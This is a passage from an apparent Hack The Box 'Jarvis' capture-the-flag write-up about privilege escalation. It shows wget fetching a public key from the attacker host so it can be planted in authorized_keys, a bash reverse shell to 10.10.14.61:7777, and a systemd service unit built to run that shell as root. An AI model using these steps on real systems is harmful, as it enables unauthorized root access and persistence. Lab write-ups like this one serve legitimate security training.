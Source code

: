 
### Privilege Escalation: A proper shell
In order to exploit `systemctl` we need a proper shell. The below method does not function on a reverse shell, as we cannot enable services through it. This was discovered via trial and error, and I can't explain exactly as to why.

To get the shell we need we're simply going to take the public key we've got on our apache server and copy it into `~/.ssh/authorized_keys`. It may be the case that we need to create this directory and file, if no other HTB users have done it since the box has been reset.

```console
pepper@jarvis:~/.ssh$ cd /tmp
cd /tmp
pepper@jarvis:/tmp$ wget http://10.10.14.61/id_rsa.pub
wget http://10.10.14.61/id_rsa.pub
--2019-07-23 21:29:15--  http://10.10.14.61/id_rsa.pub
Connecting to 10.10.14.61:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 391
Saving to: 'id_rsa.pub'

     0K                                                       100% 91.7M=0s

2019-07-23 21:29:16 (91.7 MB/s) - 'id_rsa.pub' saved [391/391]

pepper@jarvis:/tmp$ cat id_rsa.pub >> ~/.ssh/authorized_keys
```

![ssh as pepper.](/posts/images/hack-the-box-jarvis-writeup/ssh_pepper.png)
**Figure 12:** SSH'ing in directly using our public key.


### Exploiting systemctl

Since we know that the `systemctl` binary is going to be run as `root`, let's create our own service to call a reverse shell (as root!). 

First we create our script to call a reverse shell, we'll call it `shelly.sh`. This time we have netcat listening on port `7777`. We also need to `chmod +x /tmp/shelly.sh` so that it's executable.

```
#!/bin/bash  
bash -i >& /dev/tcp/10.10.14.61/7777 0>&1
```

Next we create `revshell_root.service` to execute our reverse shell as root.

```
[Unit]
Description=root shell

[Service]
ExecStart=/tmp/shelly.sh

[Install]
WantedBy=multi-user.target
```
